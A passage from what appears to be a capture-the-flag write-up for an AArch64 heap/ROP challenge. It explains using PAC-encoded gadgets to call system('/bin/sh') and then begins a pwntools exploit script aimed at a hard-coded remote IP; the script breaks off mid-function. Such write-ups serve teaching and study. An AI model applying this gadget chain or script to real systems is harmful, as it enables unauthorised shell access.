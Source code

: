 THe rest of the exploit was straightforward. As we couldnt get a pointer to system(or any other libc gadget), as they were greater than 4 bytes, we PAC-encoded then returned back to the same gadgets used earlier, and instead of returning to main, we used the following gadget to pass a pointer to `/bin/sh` into `x0`, and then call `system`:
```cpp
0x63c0c : ldr x0, [sp, #0x18] ; ldp x29, x30, [sp], #0x20 ; ret
```
Following this, we got a shell!

## Exploit script

```python
#!/usr/bin/python

from hashlib import *
from pwn import *
from pwnlib.util.iters import mbruteforce
import sys

remote_ip, port = '52.255.184.147', 8080

context.terminal = ['tmux', 'splitw', '-h']
context.arch = "aarch64"
context.log_level = "debug"

global io

re = lambda a: io.recv(a)
reu = lambda a: io.recvuntil(a)
rl = lambda: io.recvline(False)
s = lambda a: io.send(a)
sl = lambda a: io.sendline(a)
sla = lambda a,b: io.sendlineafter(a,b)
sa = lambda a,b: io.sendafter(a,b)

libc = ELF("./lib/libc.so.6")

def add(iden):
    sla(">> ","1")
    sla("identity: ",str(iden))

def lock(idx):
    sla(">> ","2")
    sla("idx: ",str(idx))

def show():
    sla(">> ","3")

def auth(idx):
    sla(">> ","4")
    sla("idx: ",str(idx))

def conv(inp, out):
    bi = bin(inp).strip().replace('0b','').rjust(64,'0')
    ni = [bi[i:i+8] for i in range(0, len(bi), 8)]
    ni = ni[::-1]

    bo = bin(out).strip().replace('0b','').rjust(64,'0')
    no = [bo[i:i+8] for i in range(0, len(bo), 8)]
    no = no[::-1]

    d1 = int(ni[3][7-0])
    d2 = int(ni[3][7-1])
    d3 = int(ni[3][7-2])
```